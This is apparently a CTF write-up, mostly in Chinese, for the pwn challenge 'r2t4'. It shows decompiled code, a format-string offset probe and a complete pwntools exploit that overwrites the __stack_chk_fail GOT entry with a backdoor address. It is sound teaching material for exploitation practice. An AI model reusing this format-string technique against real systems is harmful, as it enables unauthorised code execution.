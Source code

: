 ```yaml
---
layout: post
title:  r2t4
date:   2021-02-07 00:01:01 +0300
image:  2021-02-07-pink-dawn.jpg
tags:   [ctf,PWN,BJDCTF,Fmtstr]
---
```


#### main

```assembly
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char buf; // [rsp+0h] [rbp-30h]
  unsigned __int64 v5; // [rsp+28h] [rbp-8h]

  v5 = __readfsqword(0x28u);
  read(0, &buf, 0x38uLL);
  printf(&buf, &buf);
  return 0;
}
```

#### backdoor

```assembly
unsigned __int64 backdoor()
{
  unsigned __int64 v0; // ST08_8

  v0 = __readfsqword(0x28u);
  system("cat flag");
  return __readfsqword(0x28u) ^ v0;
}
```

main函数显然是一个格式化字符串漏洞，要我们通过该漏洞去执行backdoor()函数，可是怎么样去执行是一个问题。

通过查阅资料得知

__stack_chk_fail()这个函数会在程序出现栈溢出的时候执行，所以利用格式化字符串漏洞把这个函数的got表地址覆盖为后门函数。

定位参数

%hn：word：2bytes

计算偏移量

```assembly
root@kali1:~/pwn# nc node3.buuoj.cn 25644
aaaa%x.%x.%x.%x.%x.%x      
aaaae755590.38.c47d4f81.c48aea40.c48aea40.61616161
```

#### exp:

```assembly
# -*-coding:utf-8-*-
from pwn import *

elf = ELF("./r2t4")

io = remote("node3.buuoj.cn",25644)

stack_chk_fail_got = elf.got["__stack_chk_fail"]
backdoor       = 0x400626

# 0x40 = 64
# 0x626 = 1574

payload = "%64c%9$hn%1510c%10$hnaaa"
# 用a凑成整字
# 24bit = 3byte
# 9 = 6+3
payload += p64(stack_chk_fail_got+2) + p64(stack_chk_fail_got)
# 造成溢出
payload = payload.ljust(0x38, 'a')
io.send(payload)

io.interactive()
```

